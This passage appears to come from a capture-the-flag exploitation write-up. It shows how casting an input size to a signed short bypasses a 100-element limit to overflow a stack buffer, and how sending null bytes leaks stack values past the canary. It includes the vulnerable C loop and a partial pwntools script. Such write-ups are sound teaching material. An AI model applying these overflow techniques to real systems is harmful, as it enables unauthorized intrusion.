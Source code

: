 By using a size like `-65536 + n`, where `n` is the actual number of elements we want to input, we can bypass the 100-element limit and achieve a **buffer overflow**.
!![Screenshot_20241015_162736](../../Screenshot_20241015_162736.png)

There's also another consequence of inputting a negative size: the `sort()` function does not sort the elements anymore since, unlike the `for` loop that contains the vulnerability, the loops in the sort function does not cast the `size` variable into `short`.

---
### Leaking the Stack

Now that we have a buffer overflow vulnerability, the next challenge is bypassing the stack canary. Fortunately, there’s another subtle vulnerability in the input loop that not only allows us to leak values in the stack, but also cause a buffer overflow without overwriting the stack canary. Let's look at the vulnerable loop once again:
```c
  for (i = 0; i < (short)size; i = i + 1) {
    read(sockfd,size_buf,0x18);
    if (size_buf[0] != '\0') {
      element = atoi(size_buf);
      arr[(int)i] = element;
    }
  }
```

If we send a **null byte** (`\x00`) as input, the check `size_buf[0] != '\0'` fails, meaning no element is written to the array for that iteration. This allows us to effectively skip writing to the array while still traversing the stack.

Using `pwntools`, I sent null bytes for all input elements:
```python
def send_size(n: int):
	base = -65536
	n += base
	io.sendlineafter(b"Enter number of elements: ", str(n).encode())


def send_null():
	time.sleep(0.03)
	io.sendline(b'\x00')


n = 100
send_size(n)

for i in range(n):
	send_null()
```

